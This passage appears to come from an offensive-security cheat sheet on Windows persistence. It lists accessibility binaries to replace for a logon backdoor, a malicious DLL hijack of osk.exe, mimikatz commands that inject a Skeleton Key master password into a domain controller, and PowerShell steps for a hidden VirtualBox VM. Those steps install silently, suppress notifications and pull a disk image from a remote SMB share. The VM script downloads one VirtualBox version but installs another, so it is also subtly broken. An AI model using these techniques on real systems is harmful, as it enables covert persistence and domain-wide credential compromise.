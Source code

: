 ### Binary Replacement

#### Binary Replacement on Windows XP+

| Feature             | Executable                            |
|---------------------|---------------------------------------|
| Sticky Keys         | C:\Windows\System32\sethc.exe         |
| Accessibility Menu  | C:\Windows\System32\utilman.exe       |
| On-Screen Keyboard  | C:\Windows\System32\osk.exe           |
| Magnifier           | C:\Windows\System32\Magnify.exe       |
| Narrator            | C:\Windows\System32\Narrator.exe      |
| Display Switcher    | C:\Windows\System32\DisplaySwitch.exe |
| App Switcher        | C:\Windows\System32\AtBroker.exe      |

In Metasploit : `use post/windows/manage/sticky_keys`

#### Binary Replacement on Windows 10+

Exploit a DLL hijacking vulnerability in the On-Screen Keyboard **osk.exe** executable.

Create a malicious **HID.dll** in  `C:\Program Files\Common Files\microsoft shared\ink\HID.dll`.

### Skeleton Key

> Inject a master password into the LSASS process of a Domain Controller.

Requirements:

* Domain Administrator (SeDebugPrivilege) or `NTAUTHORITY\SYSTEM`

```powershell
# Execute the skeleton key attack
mimikatz "privilege::debug" "misc::skeleton"
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DCs FQDN>

# Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

### Virtual Machines

> Based on the Shadow Bunny technique.

```ps1
# download virtualbox
Invoke-WebRequest "https://download.virtualbox.org/virtualbox/6.1.8/VirtualBox-6.1.8-137981-Win.exe" -OutFile $env:TEMP\VirtualBox-6.1.8-137981-Win.exe

# perform a silent install and avoid creating desktop and quick launch icons
VirtualBox-6.0.14-133895-Win.exe --silent --ignore-reboot --msiparams VBOX_INSTALLDESKTOPSHORTCUT=0,VBOX_INSTALLQUICKLAUNCHSHORTCUT=0

# in \Program Files\Oracle\VirtualBox\VBoxManage.exe
# Disabling notifications
.\VBoxManage.exe setextradata global GUI/SuppressMessages "all" 

# Download the Virtual machine disk
Copy-Item \\smbserver\images\shadowbunny.vhd $env:USERPROFILE\VirtualBox\IT Recovery\shadowbunny.vhd

# Create a new VM
$vmname = "IT Recovery"
.\VBoxManage.exe createvm --name $vmname --ostype "Ubuntu" --register
```